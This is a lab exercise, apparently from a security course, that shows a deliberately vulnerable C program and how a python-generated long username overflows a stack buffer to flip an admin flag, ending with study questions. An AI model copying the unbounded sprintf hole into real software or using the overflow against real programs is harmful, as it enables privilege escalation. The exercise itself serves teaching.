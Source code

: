 # Buffer overflow - overwrite variables on the stack

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change the function flow, which enables us to gain "admin" privileges.


## Vulnerable program

We have the following program:

challenge10.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <crypt.h>
#include <string.h>

/* hash of: "ourteacheristehbest" */
const char *adminHash = "$6$saaaaalty$cjw9qyAKmchl7kQMJxE5c1mHN0cXxfQNjs4EhcyULLndQR1wXslGCaZrJj5xRRBeflfvmpoIVv6Vs7ZOQwhcx.";


int checkPassword(char *password) {
    char *hash;

    /* $6$ is SHA256 */
    hash = crypt(password, "$6$saaaaalty");

    if (strcmp(hash, adminHash) == 0) {
        return 1;
    } else {
        return 0;
    }
}


void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames

    // Check if user has admin privileges
    isAdmin = checkPassword(password);

    // create internal username
    sprintf(name, "%s-%s", "cmd", username);

    if(isAdmin > 0) {
        printf("Hello %s.\nYou are admin!\nisAdmin: 0x%x\n", name, isAdmin);
    } else {
        printf("Hello %s.\nYou are not admin.\nisAdmin: 0x%x\n", name, isAdmin);
    }
}


int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Call: %s <name> <password>\n", argv[0]);
        exit(0);
    }

    handleData(argv[1], argv[2]);
}
```

You can compile it by calling `make` in the folder `~/challenges/challenge10`


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
root@hlUbuntu32aslr:~/challenges/challenge10# ./challenge10 sheldon test
Hello cmd-sheldon.
You are not admin.
isAdmin: 0x0
```

The password "test" seems to be not correct, as the program tells us "You are not admin".


Lets execute it with the correct password `ourteacheristehbest`:
```
root@hlUbuntu32aslr:~/challenges/challenge10# ./challenge10 sheldon ourteacheristehbest
Hello cmd-sheldon.
You are admin!
isAdmin: 0x1
```

With the correct password, a message will be printed indicating that the user "cmd-sheldon"
has admin privileges.

## Abnormal behaviour - overflow

What happens when you insert a string which is longer than 64 bytes? Lets try it.
We can use python to print 70 characters:

```
root@hlUbuntu32aslr:~/challenges/challenge10# ./challenge10 `python -c 'print "A"*70'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
```

## Abnormal behaviour - more overflow

What if we even add some more characters? Lets say 100.

```
root@hlUbuntu32aslr:~/challenges/challenge10# ./challenge10 `python -c 'print "A"*100'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
Segmentation fault (core dumped)
```


## Questions

* What is happening here? Why Are we "admin" if we use a username which is 70 bytes long?
* Why does it crash, if we use a username which is 100 bytes long?
